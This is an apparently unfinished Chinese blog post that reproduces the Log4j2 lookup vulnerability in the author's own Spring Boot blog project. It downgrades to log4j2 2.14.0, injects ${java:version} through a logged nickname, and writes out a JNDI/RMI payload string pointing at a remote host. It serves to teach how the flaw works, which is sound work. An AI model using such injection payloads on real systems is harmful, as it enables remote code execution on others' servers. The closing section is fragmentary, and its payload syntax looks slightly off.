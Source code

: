 大家好，我是陌溪。

昨天在蘑菇的群里，都是讨论关于 **log4j** 的安全漏洞，陌溪看了看他们的聊天内容，一句话：**核弹级的漏洞**。

![image-20211211101637119](images/image-20211211101637119.png)

此次漏洞是用于 **Log4j2** 提供的 **lookup** 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

攻击者可通过构造恶意请求利用该漏洞实现在目标服务器上执行任意代码。可导致服务器被黑客控制，从而进行页面篡改、数据窃取、挖矿、勒索等行为。建议使用该组件的用户第一时间启动应急响应进行修复。



## 什么是 lookup

我从 **Apache** **log4j2**的官网上，找到了关于 **lookup** 的介绍，地址如下：

> https://logging.apache.org/log4j/2.x/manual/lookups.html

一句话来概括：**lookup** 的主要功能就是提供另外一种方式以添加某些特殊的值到日志中，**以最大化松散耦合地提供可配置属性供使用者以约定的格式进行调用**。

例如：**JavaLookup** 允许使用 **java:** 前缀以方便的预格式化字符串形式检索 **Java** 环境信息。

```bash
# 获取java版本
java:version
# 获取java虚拟机版本
java:vm
```

## 漏洞查找

陌溪百度了一下，都是关于如何修复这个漏洞的，但是没有讲如何复现出这个漏洞的。

陌溪本着学习的态度，在蘑菇中寻找是否存在可能被注入的漏洞的地方，通过 **IDEA** 的检索很快发现，在 **mogu-web** 项目的拦截器里，会获取到用户的昵称，然后通过 **log** 日志打印出来。

![](images/image-20211211103106525.png)

## 漏洞复现

由于蘑菇博客项目使用的是 **SpringBoot** 默认的 **logback** ，不存在上述的漏洞。通过打印日志，可以看出没有任何效果。

![](images/image-20211211103331791.png)

下面，陌溪打算给蘑菇的日志更换成 **log4j2** 日志框架，首先修改 **pom.xml** 文件，然后加入下面的配置，首先排除掉 **SpringBootStarter** 里的默认日志，在引入我们今天的主角 **log4j2** 日志框架

```xml
<!-- 排除默认日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- Log4j2 start 日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
<!-- Log4j2 end -->
```

然后再次运行本次代码，发现我们的编写的一段 **JavaLookUp** 字符串被转换成获取系统的配置了。

![image-20211211112402759](images/image-20211211112402759.png)

下面，我们启动蘑菇项目，然后修改自己的昵称，改成特殊的 **JavaLookUp** 语句：**${java:version}**

![image-20211211112738831](images/image-20211211112738831.png)

因为上面提到，蘑菇在拦截器中，会通过日志输出用户的昵称。

在门户修改完昵称后，再次查看日志，可以发现：昵称变成了 **Java** 版本号，说明我们的昵称配置已经生效了，并且输出了对应的 **Java** 版本

![image-20211211112845702](images/image-20211211112845702.png)

## 开始侵入

上面提到的 **JavaLookUp** 只是提供的一些日志获取系统变量的方法，对我们的系统其实没有多大影响，最多就导致系统获取的日志除了一些问题。

但是最致命的问题是，**LookUp** 是支持 **JNDI**，关于 **JNDI** 可以看下面的介绍：

**JNDI** ( Java Naming and Directory Interface, **Java** 命名和目录接口)是 **SUN** 公司提供的一种标准的 **Java** 命名系统接口，**JNDI** 提供统一的客户端 **API**，通过不同的访问提供者接口 **JNDI** 服务供应接口 **(SPI)** 的实现，由管理者将 **JNDI API** 映射为特定的命名服务和目录系统，使得 **Java** 应用程序可以和这些命名服务和目录服务之间进行交互。

通过 **JNDI** 相关的 **API** 中，还提供 **RMI** 的功能 ，下面是关于 **RMI** 的介绍：

**RMI** (Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

首先，**我们在** SpringBoot 的官网，快速生成一个项目

![image-20211211114404537](images/image-20211211114404537.png)

然后导入到 **IDEA** 中，然后创建两个类 **RmiServer.java**





${jndi.rmi://192.168.12.1:8888/danger}





在注册服务前，输入命令start rmiregistry，会弹出以下方框



start rmiregistry



```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

